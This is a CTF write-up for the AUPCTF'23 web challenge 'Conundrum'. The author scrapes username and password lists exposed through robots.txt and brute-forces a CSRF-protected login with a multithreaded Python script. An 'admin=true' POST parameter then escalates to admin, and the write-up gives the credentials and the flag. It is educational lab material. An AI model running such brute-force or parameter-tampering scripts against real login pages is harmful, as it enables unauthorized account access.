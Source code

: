 ```yaml
---
title: AUPCTF'23 - Web - Conundrum
date: '2023-06-24'
tags: ['ctf', 'web', 'aupctf', 'writeup']
draft: false
summary: A detailed writeup for the web challenge `Conundrum` from AUPCTF'23
---
```


# AUPCTF'23 - Web - Conundrum

We're given the following URL to work with:

```js
https://challs.aupctf.live/conundrum/
```

Upon visiting the URL, we're greeted with a login page:

![Login Page](/static/writeups/aupctf/web/conundrum_login.png)

We can try to login with some random credentials, but we're greeted with the following error:

![Error Login Page](/static/writeups/aupctf/web/conundrum_err_login.png)

Using a `CTF` mindset, we try and visit some obvious pages, first, we visit robots.txt and get the following:

```js
User-agent: *
Disallow: /usernames/
Disallow: /passwords/
```

We visit the `/usernames/` directory and get the following:

![Usernames](/static/writeups/aupctf/web/conundrum_usernames.png)

Similarly, for passwords:

![Passwords](/static/writeups/aupctf/web/conundrum_passwords.png)

Now, to extract the username and passwords, I wrote the following python script:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum"

r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)

r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)

```

Now, we need to send the data to the login page, so, using Chrome dev tools, we firstly identify the `POST` request being sent to the server:

![DevTools](/static/writeups/aupctf/web/conundrum_requests.png)

Now, here, we can see that, we have a `csrfmiddlewaretoken`. So, for that, we need to send a `GET` request to the login page, and extract the `csrfmiddlewaretoken` from the response, and then, with each request, we need to send the `csrfmiddlewaretoken` as well. Also, we will need the `csrftoken` cookie set as well and a `referer` header set to the login page. So, for that, I wrote the following final script.

```py
import requests
import re
import threading
import itertools

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()
csrftoken = None

def _post(username, password):
	r = sess.post(
		url,
		headers = {
			'Referer' : url
		},
		data = {
			'csrfmiddlewaretoken' : csrftoken,
			'username' : username,
			'password' : password,
		}
	)

	if 'invalid' not in r.text.lower():
		print(f"=> {username}:{password}")
		print(f"Response: {r.text}")

print("[+] Fetching the usernames", end='')
r = requests.get(f"{url}/usernames")
usernames = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(usernames)}")

print("[+] Fetching the passwords", end='')
r = requests.get(f"{url}/passwords")
passwords = re.findall("<li>(.*?)</li>", r.text)
print(f" : {len(passwords)}")


print("[*] Combining both lists: ")
creds = list(itertools.product(usernames, passwords))

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

print("[*] Bruteforcing...")
threads = []
for username, password in creds:
	t = threading.Thread(target=_post, args=(username, password))
	threads.append(t)
	t.start()

for t in threads:
	t.join()
```

Now, when running the script, we get the following output in matters of seconds:

```py
[+] Fetching the usernames : 20
[+] Fetching the passwords : 20
[*] Combining both lists: 
[*] Extracting the CSRF Token : ZQBndXSbKeH0C3Wnl3pLlP3epgwasd1F
[*] Bruteforcing...
=> starlord69:1A8$5k7!eR
Response: <!DOCTYPE html>
<html>
<head>
    <title>Login Successful</title>

</head>
<style>
    body {
        background-color: #f2f2f2;
        font-family: Arial, sans-serif;
        margin: 0;
        padding: 0;
    }
    .h{
        text-align: center;
        font-size: 36px;
    }
    .message {
        text-align: center;
        margin-top: 50px;
        margin-left: 5em;
        margin-right: 5em;
        font-size: 24px;
        color: #333;
    }

    .logout {
        display: block;
        text-align: center;
        margin-top: 20px;
        color: #a00606;
        text-decoration: none;
        font-size: 24px;
    }

    .logout:hover {
        color: #540a0a;
    }
</style>

<body>
    <h3 class="h">Login successful!</h3>
    <p class="message">You've entered the 'Userland'! The flag, however, is chilling in the 'Admin Paradise'.</p>
    <a href="/phash/" class="logout">Logout</a>

    </form>
</body>
</html>
```

Now, with the following credentials, `starlord69:1A8$5k7!eR`, we are able to login successfully:


![Login Success](/static/writeups/aupctf/web/conundrum_login_success.png)

Now, the message is pretty vague. I tried several different stuff. Finally, with a hint from the admins and a fellow hacker, I tried the two things and one of them worked

1. Adding a seperate `admin: 1` header in the http request
2. Adding a `admin=true` parameter in the POST request data (SPOILER, it worked.)

![burp_test](/static/writeups/aupctf/web/conundrum_burp.png)
![Flag](/static/writeups/aupctf/web/conundrum_flag.png)

So, since I love to automate everything, the final script to extract the flag became:

```py
import requests
import re

url = "https://challs.aupctf.live/conundrum/"
sess = requests.Session()

username = 'starlord69'
password = '1A8$5k7!eR'

print(f"[*] Using creds: {username}:{password}")

print("[*] Extracting the CSRF Token", end='')
sess.get(url)
csrftoken = sess.cookies.get('csrftoken')
print(f" : {csrftoken}")

r = sess.post(
	url,
	headers = {
		'Referer' : url
	},
	data = {
		'csrfmiddlewaretoken' : csrftoken,
		'username' : username,
		'password' : password,
		'admin' : 'true',
	}
)

flag = re.findall('class="flag">(.*?)</b>', r.text)[0]
print(f"[>] Flag: {flag}")
```

The final output and flag is:

```py
[*] Using creds: starlord69:1A8$5k7!eR
[*] Extracting the CSRF Token : 136nR4wCHKPlH5rj7O9VIyFRwSgn8X1j
[>] Flag: aupCTF{V1ct0ri0usChall3ng3r!}
```
